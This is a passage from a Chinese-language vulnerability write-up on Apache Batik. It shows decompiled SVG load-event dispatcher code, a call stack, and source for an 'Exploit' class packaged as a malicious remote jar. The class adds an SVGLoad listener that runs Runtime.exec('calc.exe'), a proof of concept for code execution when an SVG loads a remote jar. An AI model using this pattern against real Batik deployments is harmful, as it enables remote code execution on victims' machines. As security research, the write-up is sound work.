    SVGLoadEventDispatcherEvent ev = new SVGLoadEventDispatcherEvent(this, this.root);

    try {
        this.fireEvent(startedDispatcher, ev);
        if (this.isHalted()) {
            this.fireEvent(cancelledDispatcher, ev);
            return;
        }

        this.updateManager.dispatchSVGLoadEvent();
        if (this.isHalted()) {
            this.fireEvent(cancelledDispatcher, ev);
            return;
        }

        this.fireEvent(completedDispatcher, ev);
    } catch (InterruptedException var3) {
        this.fireEvent(cancelledDispatcher, ev);
    } catch (InterruptedBridgeException var4) {
        this.fireEvent(cancelledDispatcher, ev);
    } catch (Exception var5) {
        this.exception = var5;
        this.fireEvent(failedDispatcher, ev);
    } catch (ThreadDeath var6) {
        this.exception = new Exception(var6.getMessage());
        this.fireEvent(failedDispatcher, ev);
        throw var6;
    } catch (Throwable var7) {
        var7.printStackTrace();
        this.exception = new Exception(var7.getMessage());
        this.fireEvent(failedDispatcher, ev);
    }

}
```

```
initializeEventListeners:12, Exploit
loadScript:436, BaseScriptingEnvironment (org.apache.batik.bridge)
loadScripts:354, BaseScriptingEnvironment (org.apache.batik.bridge)
dispatchSVGLoadEvent:238, UpdateManager (org.apache.batik.bridge)
dispatchSVGLoadEvent:220, UpdateManager (org.apache.batik.bridge)
run:100, SVGLoadEventDispatcher (org.apache.batik.swing.svg)
```



在加载我们的脚本的时候会调用 initializeEventListeners 方法

  
而我们的 cll 是可以加载远程的 jar 文件  
所以导致了我们的漏洞

恶意 jar

```
import org.w3c.dom.events.Event;
import org.w3c.dom.events.EventListener;
import org.w3c.dom.svg.EventListenerInitializer;
import org.w3c.dom.svg.SVGDocument;
import org.w3c.dom.svg.SVGSVGElement;

public class Exploit implements EventListenerInitializer {
    public Exploit() {
    }

    public void initializeEventListeners(SVGDocument document) {
        SVGSVGElement root = document.getRootElement();
        EventListener listener = new EventListener() {
            public void handleEvent(Event event) {
                try {
                    Runtime.getRuntime().exec("calc.exe");
                } catch (Exception e) {
                }
            }
        };
        root.addEventListener("SVGLoad", listener, false);
    }
}
```

参考<https://github.com/Y4Sec-Team/>
